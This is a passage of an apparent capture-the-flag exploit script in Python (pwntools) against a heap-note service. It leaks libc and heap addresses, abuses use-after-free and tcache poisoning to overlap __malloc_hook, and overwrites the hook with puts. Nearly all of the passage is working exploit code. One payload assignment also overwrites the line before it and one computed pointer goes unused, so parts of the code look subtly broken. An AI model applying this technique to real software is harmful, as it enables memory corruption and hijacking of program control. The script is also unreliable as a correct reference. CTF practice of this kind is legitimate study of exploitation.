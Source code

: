 ```py
    p.sendlineafter(b'-->', flag)

def free(idx):
    p.sendlineafter(b'option: ', b'4')
    p.sendlineafter(b'-->', str(idx).encode())

def read_flag(idx):
    p.sendlineafter(b'option: ', b'3')
    p.sendlineafter(b'-->', str(idx).encode())

######################################################################################

p = connect()

p.recvuntil(b'Kernel Seed: ')
libc.address = int(p.recvline().strip(), 16) - libc.sym.rand

print("[i] Libc Base:", hex(libc.address))

create(0x98) # 1 
create(0x98) # 2

create(0x98) # 3
create(0x98) # 4

free(4)
free(3)
create(0x98) # 3
read_flag(3)

p.recvline()
p.recvline()
heap = u64(p.recv(6).ljust(8, b'\x00')) - (0x555555a02470 - 0x555555a01000)
print("[i] Heap:", hex(heap))

create(0x98) # 4

free(4)
free(3)
free(2)

payload  = p64(0) * 19
payload += p64(0xa1)
payload += p64(heap + 0x10)

write(1, payload)

create(0x98) # 2
create(0x98) # 3

payload  = p64(0) 
payload += p64(5)
payload  = p64(6) * 16
payload += p64(libc.sym.__malloc_hook)

write(3, payload)

create(0x98) # 4 Overlaps malloc_hook

text_ptr = libc.address + (0x7ffff7beadb0 - 0x7ffff7800000)
write(4, p64(libc.sym.puts))

free(1)
```